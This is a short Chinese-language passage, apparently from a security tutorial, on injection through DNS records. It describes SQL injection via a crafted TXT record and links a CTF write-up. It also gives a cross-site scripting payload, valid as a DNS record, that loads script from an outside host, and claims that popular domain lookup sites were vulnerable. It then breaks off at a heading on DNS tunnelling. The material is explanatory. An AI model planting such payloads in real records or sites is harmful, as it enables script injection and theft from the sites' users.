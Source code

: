 看看下面代码有安全问题吗？

![enter image description here](img/img19_u7_jpg.jpg)

把 TXT 记录改成如下，最终导致 SQL 注入：

![enter image description here](img/img20_u4_jpg.jpg)

下面有一篇详细的 DNS 注入的 writeup

https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns

下面是一个有效的 CNAME，MX，TXT，PTR 等记录（双引号和空格不允许）

```
<script/src='http://javaop.com/test-js.js'></script> 
```

显然 TXT 记录可以做更多的事情。

在 2010 年的时候我测试三个访问最多的域名查询系统的时候全部都有这个漏洞

现在其中的一个仍然有此问题。

**DNS 隧道**
